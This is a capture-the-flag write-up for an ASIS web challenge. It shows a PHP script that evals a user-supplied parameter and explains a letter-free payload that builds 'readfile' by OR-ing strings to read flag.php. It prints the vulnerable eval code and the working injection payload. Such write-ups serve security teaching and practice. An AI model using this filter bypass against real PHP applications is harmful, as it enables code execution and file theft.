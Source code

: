# Web Warm-up

We are given a url <http://69.90.132.196:5003/?view-source> which greets us with this PHP script. We want to get contents of a file `flag.php` in this task.

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
?>
```

We control a parameter `warmup` which is passed through `eval()` function, and is executed as PHP code.  
We can't use any alphabets in over payload, so we use the fact that in PHP, we can use bitwise operators on 2 strings, which will be applied to each of their characters individually. And that function names can also be strings.  

We can send this payload as `warmup`, but wriiten as some operation of 2 strings that don't use any alphabets.

```php
read_file('flag.php')
```

We can write a script to generate the payload (`gen.py`) which generates  

```php
("2%!$&),%"|"@@@@@@@@")("&,!@$0(0"|"@@@'*@@@");
```

and use it to get the flag
`ASIS{w4rm_up_y0ur_br4in}`